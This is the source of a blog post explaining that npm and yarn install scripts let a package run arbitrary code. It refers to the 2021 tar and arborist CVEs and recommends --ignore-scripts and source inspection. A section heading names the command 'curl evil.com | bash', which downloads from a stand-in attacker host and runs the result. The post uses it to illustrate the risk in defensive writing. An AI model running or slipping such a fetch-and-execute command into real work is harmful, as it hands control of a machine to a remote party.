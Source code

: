 ```yaml
---
layout: post
title: npm install is curl | bash
date: 2021-09-08T17:44:24.153Z
---
```

Today, GitHub published [a write-up on a number of CVEs](https://github.blog/2021-09-08-github-security-update-vulnerabilities-tar-npmcli-arborist/)[^1] in the npm packages `tar` and `@npmcli/arborist`. In their own words, 

> The npm CLI aims to enforce certain security boundaries on package installation. One of these boundaries is that a package’s contents will only be written to the appropriate folder within the `node_modules` directory hierarchy. Several of the `tar` and `@npmcli/arborist` vulnerabilities will cross that security boundary and may result in unexpected arbitrary file overwrites and subsequent code execution when installing untrusted packages.

This sounds pretty scary: "arbitrary file overwrites and subsequent code execution" is the kind of phrase that you don't want to see in a CVE description. The problem is that by default, npm allows this to happen anyway.

## postinstall: "curl evil.com | bash"

npm (and yarn) will execute arbitrary code when you install a package via [install scripts](https://docs.npmjs.com/cli/v7/using-npm/scripts#npm-install). A valid use-case is to build native code on installation, or do some other environment-specific setup, though these scripts have also been used to [show ads](https://www.zdnet.com/article/npm-bans-terminal-ads/) and, of course, as an [attack](https://blog.sonatype.com/bladabindi-njrat-rat-in-jdb.js-npm-malware) [vector](https://snyk.io/blog/npm-security-malicious-code-in-oss-npm-packages/). In fact, install scripts [were the most popular route for malware](https://blog.npmjs.org/post/188385634100/npm-security-insights-api-preview-part-2-malware) as of 2019[^2].

Installing a single malicious package is enough to get reasonably pwned. The risk is mitigated by npm’s moderation of the registry — they’re quick to remove malware once discovered. This works pretty well, though I worry about the day someone uses this to [publish a self-replicating worm](https://blog.npmjs.org/post/141702881055/package-install-scripts-vulnerability).

This attack vector isn’t unique to npm. Other package managers like pip and RubyGems allow for the same thing. As developers, we’re not as cautious when installing packages from these registries as when we use `curl | bash`, though we should be[^3].

## Mitigations

When installing an untrusted package, run `npm install` or `yarn add` with the `--ignore-scripts` flag. If, like me, you tend to forget this, you can set npm/yarn to never run scripts with `{npm,yarn} config set ignore-scripts true`.

I also recommend inspecting the source code of a package before you install it. I like to use [xray.computer](https://xray.computer/source) for this, because I made it.

And, of course, update your npm CLI to fix the CVEs that let packages bypass this setting.

[^1]: Specifically, CVE-2021-32803, CVE-2021-32804, CVE-2021-37701, CVE-2021-37712, CVE-2021-37713, CVE-2021-39134, and CVE-2021-39135.

[^2]: No more recent data is available, and work on npm’s Security Insights API/malware database seems to have stalled.

[^3]: You do get the added security feature of integrity checking when installing via a package manager as opposed to `curl | bash`. This prevents e.g. MITM attacks, but don’t forget that packages in open-source registries are mostly trash, with the occasional piece of malware or genuinely useful code floating around.